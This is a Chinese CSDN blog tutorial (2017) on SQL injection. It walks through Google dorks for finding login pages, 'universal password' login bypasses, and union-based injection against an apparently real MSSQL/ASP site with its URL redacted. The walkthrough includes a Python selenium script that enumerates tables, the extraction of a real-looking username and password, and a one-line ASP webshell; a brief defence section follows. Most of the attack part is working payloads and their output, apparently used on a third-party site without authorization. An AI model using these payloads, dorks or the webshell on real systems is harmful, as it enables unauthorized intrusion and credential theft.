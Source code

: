 
# [渗透&攻防] 一.从数据库原理学习网络攻防及防止SQL注入 - 杨秀璋的专栏 - CSDN博客

2017年07月13日 00:06:21[Eastmount](https://me.csdn.net/Eastmount)阅读数：4881


这是最近自己学习渗透和网站攻防的文章，希望能深入地学习这部分知识，同时认了Na师傅和Rong师傅，知道了人外有人、天外有天，真的很享受这种探索问题、解决问题和分析知识的过程。希望文章对你有所帮助，尤其是学习网站如何防止SQL注入及数据库原理的初学者或安全工程师。如果文章中存在错误或不足之处，还请海涵~
一.Google搜索知识
二.万能密码原理
三.数据库解读SQL注入攻防原理
1.数据库如何判断注入点
2.数据库如何判断字段总数 order by
3.数据库获取显示位 union
4.数据库显示错误网页及对应数据 db_name
5.数据库获取表名及列名，Python爬虫引入
6.数据库获取登录表usr字段 id=object_id('usr')
7.数据库返回用户名和密码
8.登录系统并获取WebShell
四.防SQL注入措施及建议

## 一. Google搜索知识
Google提供了强大的搜索功能，可以获取精准的结果。如果访问不了，也可以通过百度获取相关内容，但是结果远没有谷歌精准，很多无关的广告及视频会返回给你。
方法如下：
**intitle:eastmount**
搜索网页标题包含eastmount字符的网页。
![](https://img-blog.csdn.net/20170627225058055)

**inurl:cbi**
搜索包含特定字符cbi的URL。

**intext:cbi**
搜索网页正文内容包含特定字符cbi的网页。

**filetype:ppt**
搜索制定类型的文件，返回所有以ppt结尾的文件URL。

**site**
找到与指定网站有联系的URL。

常用示例：inurl:login.asp、inurl:asp?id=、inurl:login.asp intilte:贵州
![](https://img-blog.csdn.net/20170627225958480)




## 二. 万能密码原理
万能密码通常是指开发人员在开发过程中使用超级管理员进行开发，开发完成后没有过滤掉这些常用的超级管理员；另一种是存在SQL漏洞管理员账号。下面分别进行讨论：
1.万能密码：用户名 admin、密码admin，用户名admin、密码123456
2.万能密码：用户名 'or'='or'、密码 'or'='or'
原理解释：假设用户登录对应的语句为：
select name, pwd from login where name='' and pwd='';
如果用户名输入正确则直接登录，否则提示用户名或密码错误，使用万能密码后的SQL语句如下：
select name, pwd from login where name='**'or'='or'**' and pwd='**'or'='or'**';
核心代码，两个单引号匹配，即name=''，然后or连接，单引号等于单引号('=')这是恒成立的，紧接着or连接两个单引号('')，同理密码pwd。这样or连接的('=')是恒成立的，故返回结果为真，导致直接登录。
3.万能密码：用户名 'or''='、密码'or''='
原理解释：此时对应的SQL语句如下：
select name, pwd from login where name='**'or''='**' and pwd='**'or''='**';
4.万能密码：用户名'or'='--、密码'or'='--
原理解释：此时对应的SQL语句如下：
select name, pwd from login where name='**'or'='--**' and pwd='**'or'='--**';
通过如 inurl:login.asp 等搜索技术找到一些列网站后台登录界面后，反复尝试这些万能密码进行登录。防范措施也比较简单：
1.开发人员开发完成后，过滤掉admin等常用账号或修改密码；
2.当用户第一次登录的时候，对简单的密码进行修改提示，防止暴力破解；
3.用户名或密码屏蔽掉单引号(')、等号(=)、注释(--)等特殊字符；
4.对尝试SQL注入的IP地址进行报警提示或日志记录。


## 三. 数据库解读SQL注入攻防原理
下面通过一个简单的例子从数据库原理知识解读SQL注入攻防原理，内容比较简单，但希望假设存在一个网址能正常显示内容：
http://xxxxx/show.asp?code=115
对应的后台SQL语句可能如下：
select .... from table where code='115' and xxxx;

**1.数据库如何判断注入点**
判断注入点的方法很多，比如show.asp?code=115' 加单引号，show.asp?code=115-1 减1，这里介绍一个经典的方法。
(1)http://xxxxx/show.asp?code=115**' and 1=1 --**(正常显示)
对应的SQL语句：
select .... from table where code='115' and 1=1 --and xxxx;
单引号(')匹配code='115，然后and连接，1=1恒成立，注释(--)掉后面语句。
(2)http://xxxxx/show.asp?code=115' and 1=2 --(错误显示)
对应的SQL语句：
select .... from table where code='115' and 1=2 --and xxxx;
单引号(')匹配code='115，然后and连接，1=2恒错误，注释(--)掉后面语句。

**2.数据库如何判断字段总数 order by**
(1)http://xxxxx/show.asp?code=115' order by 1 --(正常显示)
对应的SQL语句：
select .... from table where code='115' order by 1 --and xxxx;
按照1个字段进行排序，正常显示表示该URL对应的SQL语句至少一个字段。
(2)http://xxxxx/show.asp?code=115**' order by 10 --**(正常显示)
对应的SQL语句：
select .... from table where code='115'order by 10--and xxxx;
依次按照字段增加网上进行排序，如果提示错误order by 11，则表示共10个字段。
(3)http://xxxxx/show.asp?code=115**' order by 11 --**(错误显示)

**3.数据库获取显示位 union**
在得到字段个数后，需要获取字段位置，则使用union或union all。其中union表示将两个select结果整体显示，并合并相同的结果，union all显示全部结果。例如：

![](https://img-blog.csdn.net/20170712230408730)
(1)http://xxxxx/show.asp?code=115**' union all select null,...,null --**
正常显示，共10个null，表示通配符，如果9个null会报错，需对应10个字段。
(2)http://xxxxx/show.asp?code=115**' union all select 1,...,null --**
依次替换成数字，测试哪几个字段有结果，如果报错则替换回null。最终的结果为：
show.asp?code=115**' union all select 1,null,3,null,null,6,7,8,9,10 --**
对应的SQL语句为：
select .... from table where code='115' union all select 1,null,3,null,null,6,7,8,9,10 --xxxx;
(3)http://xxxxx/show.asp?code=-1**' union all select 1,...,null --**
然后将数字115替换成-1，一个不存在的界面，则会显示如下所示结果，可以看到附件显示对应的值7、8、9，再想办法将我们需要的结果在这里显示即可，这些数据都是从后台数据库中查询出来的。
![](https://img-blog.csdn.net/20170712231306296)

**4.数据库显示错误网页及对应数据 db_name**
该网站使用的数据库为MSSQL，则一定特定的字段需要知道：
host_name()：连接数据库服务器的计算机名称
@@version：获取数据库版本号
db_name()：数据库的库名称
@@servername：当前数据库计算机的名称=host_name()
(1)http://xxxxx/show.asp?code=-1**' union all**
**select****1,null,3,null,null,6,host_name(),@@version,db_name(),10 --**
输出结果如下所示：
附件1：AYD
附件2：Microsoft SQL Server....
附件3：ahykd_new
其中数据库的名称就是ahykd_new，接下来相同的道理获取数据库所有表及列。

**5.数据库获取表名及列名，Python爬虫引入**
SQL Server自带系统对象表，当前数据库所有字段。
sysobjects 表名
syscolumns 列名
其中，name表示对象名（表名），id表示表编号，type表示对象类型，其值为U表示用户表，S表示系统表，C约束，PK主键等。
sysobjects 和syscolumns 之间以id互相对应，一个表名在sysobjects得到id后可以在syscolumns找到它的列名。
重点知识：
a.查看所有表名语句
select name from sysobjects where type='U';
b.询表table1的所有字段名称
select name from syscolumns where id=object_id('table1')；
(1)http://xxxxx/show.asp?code=-1' union all
select**1,null,3,null,null,6,7,8,**
**(select top 1 name from sysobjects where type='U'),10 --**
输出结果如下所示：
附件1：7
附件2：8
附件3：kc_jxjd
其中top 1 name用于输出1个字段(相当于MySQL使用limit 1)，sysobjects中u为用户表，count(*)可以统计总共87个表。
问题：现在是获取1个表，那么如何获取其他表呢？
(2)http://xxxxx/show.asp?code=-1' union all
select**1,null,3,null,null,6,7,8, (select top 1 name from**
**(select top****2****name from****sysobjects****where type='U' order by desc****) a**
**order by 1 asc),10 --**
通过子查询一个升序，一个降序获取第二个值，同理第三个top 3。
下面通过Python定义一个爬虫不断访问top n，获取所有的表名，代码如下：

```python
# coding=utf-8
from selenium import webdriver             
driver = webdriver.Firefox()    
#查询表的名字
#(select top 1 name from (select top " + str(i) +" name from sysobjects where xtype='u' order by 1 asc)a order by 1 desc)
i = 1
while i<=87:
    url = "http://...tztgxx.aspx?code=-115' union all select 1,null,1,null,null,6,host_name(),@@servername,(select top 1 name from (select top " + str(i) +" name from sysobjects where xtype='u' order by 1 asc)a order by 1 desc),10 --"
    #print url
    driver.get(url)
    elem = driver.find_element_by_xpath("//form[@name='form1']/div[2]/table/tbody/tr[7]")
    print elem.text
    i = i + 1
```
分析输出的所有表名，可以发现usr为后台登录表。

**6.数据库获取登录表usr字段 id=object_id('usr')**
(1)http://xxxxx/show.asp?code=-1' union all
select1,null,3,null,null,6,7,8,
(select top 1 name from syscolmns where id=object_id('usr')),10 --
输出结果如下所示：
附件1：7
附件2：8
附件3：answer
其中top 1 name用于输出1个字段，表usr的一个列表。
(2) 核心SQL语句获取不同的列名：
**(select top 1 name from****(select top****3****name from****syscolumns where id=object_id('usr') order by asc****) a****order by 1 desc)**
输出结果如下所示：
附件1：7
附件2：8
附件3：dic_roll
同理，也可以借助Python获取所有字段，如果字段少，手工即可测试出来，count(*)返回字段个数。最后发现，用户名为usr_name，密码为passwd。

**7.数据库返回用户名和密码**
(1)http://xxxxx/show.asp?code=-1' union all
select1,null,3,null,null,6,7,8,**(select top 1 usr_name from usr)**,10 --
输出结果如下所示：
附件1：7
附件2：8
附件3：2016001
输出用户名2016001，在搜索密码。
(2)http://xxxxx/show.asp?code=-1' union all
select1,null,3,null,null,6,7,8,
**(select passwd  from usr where****usr_name='2016001'****)**,10 --
输出结果如下所示：
附件1：7
附件2：8
附件3：123456
输出用户名2016001，密码123456，此时即可登录，通过Python可以获取所有值。

**8.登录系统并获取WebShell**
登录后台基本完成，下面将讲解如何进行SQL防御。
PS：<%eval request("Nana") %>


## 四. 防SQL注入措施及建议
上面通过数据库原理进行了详细的讲解，这种网站基本很少存在了，几乎为0，更多的网页都有相关的屏蔽的。比如：
1.在URL设置不允许非法字符，如单引号、等号、注释--、减号，提示非法参数；
2.在URL设置不允许SQL常见的关键词，如and、select、or、insert等；
3.传递的id=115参数必须为数字才能正常跳转，否则跳转错误，如下图所示：

![](https://img-blog.csdn.net/20170712235345953)
4.服务器启用SQL注入拦截功能，提示当前网页的 URL / POST / COOKIES中包含了特定的 SQL字符而被防火墙拦截，因为可能通过POST、Cookies进行攻击。各方面都需要做到防御。

![](https://img-blog.csdn.net/20170712235538443)

5.可以使用Javascript在客户端进行不安全字符屏蔽，也可以在jsp中调用该函数检查是否包函非法字符，或使用正则表达式过滤传入的参数，防止SQL从URL注入。

希望文章对你有所帮助，尤其是网络安全的程序员，如果文章存在错误或不足之处，还请海涵。感谢娜师傅的一路陪伴，学中文的扔掉了手中的尤克里里，教我写代码也是很疯狂的啊，哈哈！不忘初心，继续前行。加油，秀璋。绿妖，晚安！
(By:Eastmount 2017-07-13 晚上12点[http://blog.csdn.net/eastmount/](http://blog.csdn.net/eastmount/))


